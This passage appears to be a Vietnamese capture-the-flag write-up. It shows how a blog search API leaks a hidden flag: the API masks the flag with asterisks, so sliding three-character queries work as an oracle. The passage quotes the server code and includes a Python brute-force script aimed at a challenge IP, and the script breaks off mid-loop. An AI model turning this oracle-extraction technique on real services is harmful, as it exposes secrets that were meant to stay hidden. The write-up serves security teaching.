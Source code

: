 ```javascript
const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));

```
Ta có thể thấy được nếu truy vẫn 3 kí tự trùng với ```blog``` có chứa flag thì các kí tự của flag sẽ bị thay thể bởi kí tự * 

Ta quan sát được bài viết thứ 3 có chưa flag ẩn

```javascript
{
        id: 3,
        title: "Not the flag?",
        content: `Well luckily the content of the flag is hidden so here it is: ${FLAG}`,
        author: "admin",
        date: "2025-05-13"
},
```
Vì đã biết được flag sẽ bắt đầu bằng ```R3AK{``` nên chúng ta có thể ```bruteforce``` lần lượt 3 kí tự cửa sổ trượt

```python
import requests
import re

url = 'http://34.134.162.213:17000/api/search'
known_flag = "L3AK{"
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!@#$%^&*()-=+[]{}|;:',.<>/?~\"\\"
max_len = 100

def has_masked_flag(fragment):
    try:
        res = requests.post(url, json={'query': fragment})
        data = res.json()
        for post in data.get("results", []):
            if post["id"] == 3:
                content = post.get("content", "")
                match = re.search(r":\s*([\*]{5,})\s*$", content)
                if match:
                    return True
    except Exception as e:
        print(f"[ERROR] Request failed: {e}")
    return False

def brute_force_flag():
    global known_flag
    print(f"[+] Starting with known prefix: {known_flag}")

    while len(known_flag) < max_len:
        found = False
        for c in charset:
            fragment = known_flag[-2:] + c
            if has_masked_flag(fragment):
                known_flag += c
                print(f"[+] Found next char: {c} → {known_flag}")
                found = True
```